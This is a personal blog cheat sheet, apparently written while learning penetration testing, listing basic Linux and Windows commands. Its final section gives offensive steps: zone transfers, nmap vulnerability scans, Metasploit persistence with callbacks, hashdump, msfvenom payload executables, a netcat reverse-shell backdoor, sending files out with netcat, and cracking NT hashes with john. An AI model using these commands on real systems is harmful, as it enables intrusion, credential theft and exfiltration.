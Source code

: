 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\&gt; &lt;command&gt; /? </code></li>
		<li><code>root@kl~# &lt;command&gt; -h </code></li>
		<li><code>root@kl~# &lt;command&gt; --help </code></li>
		<li><code>root@kl~# man &lt;command&gt; </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<strong>
		<li><code>root@kl~# cp &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>		
				<li>(copy)</li>
			</ul>
	<strong>
		<li><code>C:\> copy  &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# clear </code></li>
		<li><code>C:\> cls </code></li>
		<li><code>C:\> dir </code></li>
		<li><code>root@kl~# echo &lt;message&gt; </code></li>
	</strong>
			<ul>
				<li>(print to screen)</li>
			</ul>		
	<strong>
		<li><code>root@kl~# find –iname &lt;file&gt; </code></li>
		<li><code>C:\> findstr /i /s &lt;string&gt; *.txt </code></li>
	</strong>
			<ul>
				<li>(like grep for Windows)</li>
			</ul>
	<strong>
		<li><code>root@kl~# file </code></li>
	</strong>
			<ul>
				<li>(determine file type)</li>
			</ul>
	<strong>
		<li><code>C:\> dir \ &lt;file&gt; /b /s </code></li>
		<li><code>root@kl~# grep </code></li>
	</strong>
			<ul>
				<li>(search files for matching text)</li>
			</ul>
	<strong>
			<li><code>root@kl~# gzip </code></li>
	</strong>
			<ul>
				<li>(compress or decompress files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# less </code></li>
	</strong>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>
	<strong>
		<li><code>root@kl~# locate </code></li>
		<li><code>root@kl~# ls </code></li>
		<li><code>root@kl~# mkdir </code></li>
	</strong>
			<ul>
				<li>(new directory)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# mv &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>
				<li>(move/rename a file)</li>
			</ul>
	<strong>
		<li><code>C:\>  move &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# rm </code></li> 
	</strong>
			<ul>
				<li>(remove files)</li>
			</ul>	
	<strong>
		<li><code>C:\> ren </code></li>
	</strong>
			<ul>
				<li>(renames file)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# umask </code></li>
	</strong>
			<ul>
				<li>(users file creation mask)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# uniq </code></li>
	</strong>
			<ul>
				<li>(uniquify files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# vi/vim </code></li>
	</strong>
			<ul>
				<li>(the best text editor)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# wc </code></li>
	</strong>
			<ul>
				<li>(print byte, word and line counts)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# whereis </code></li>
	</strong>
			<ul>
				<li>(search $path, man pages and source files for program)</li>
			</ul>	
</ul>
		
<h2>Users</h2>
<ul>
<strong>
	<li><code>root@kl~# chgrp </code></li>
</strong>
		<ul>
			<li>(change group ownership)</li>
		</ul>	
<strong>
	<li><code>root@kl~# chmod </code></li>
</strong>	
		<ul>
			<li>(change access permissions)</li>
		</ul> 
<strong>
	<li><code>root@kl~# chown </code></li>
</strong>	
		<ul>
			<li>(change file owner and group)</li>
		</ul>	
<strong>
	<li><code>root@kl~# groupadd </code></li>
</strong>	
		<ul>
			<li>(add a user to a security group)</li>
		</ul>	
<strong>
	<li><code>root@kl~# passwd </code></li>
</strong>	
		<ul>
			<li>(modify user password)</li>
		</ul>	
<strong>
	<li><code>root@kl~# useradd </code></li>
</strong>	
		<ul>
			<li>(create new users)</li>
		</ul>	
<strong>
	<li><code>root@kl~# usermod </code></li>
</strong>	
		<ul>
			<li>(modify user account)</li>
		</ul>	
<strong>
	<li><code>root@kl~# users </code></li>
</strong>	
		<ul>
			<li>(list logged in users)</li>
		</ul>
</ul>

<h2>Networks</h2>
<strong>
	<li><code>root@kl~# curl </code></li>
</strong>
		<ul>
		<li>(grab webpages)</li>
		</ul>
<strong>
	<li><code>root@kl~# dig </code></li>
</strong>
		<ul>
		<li>(DNS lookup)</li>
		</ul>
<strong>
	<li><code>root@kl~# ifconfig </code></li>
	<li><code>root@kl~# netstat -ano/-plant/-uplant </code></li>
</strong>
		<ul>
		<li>(networking connections)</li>
		</ul>
<strong>
	<li><code>root@kl~# nslookup </code></li>
</strong>
		<ul>
			<li>(query name servers)</li>
		</ul>
<strong>
	<li><code>root@kl~# ping </code></li>
	<li><code>root@kl~# ssh </code></li>
	<li><code>root@kl~# traceroute </code></li>
	<li><code>root@kl~# wget </code></li>
</strong>
		<ul>
			<li>(get web pages or files)</li>
		</ul>
 
 
<h2>Reconnaissance<h2>
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>

